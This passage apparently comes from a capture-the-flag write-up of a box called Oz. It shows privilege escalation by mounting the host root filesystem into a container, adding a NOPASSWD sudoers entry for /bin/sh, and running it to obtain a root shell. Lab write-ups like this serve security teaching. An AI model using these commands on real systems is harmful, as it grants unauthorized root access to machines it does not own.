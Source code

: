 ![Create container console](oz_docker-3.png)

After configuring the container, the systems root path will be mounted on _/mnt_ and every file can be read and modified.

Modifying the _/etc/sudoers_ file:
```
vi /mnt/etc/sudoers

(...)
dorthi ALL=(ALL) NOPASSWD: /bin/sh
```

Executing _/bin/sh_ as _dorthi_:
```
dorthi@Oz:~$ sudo /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

This results in a root shell on the box!
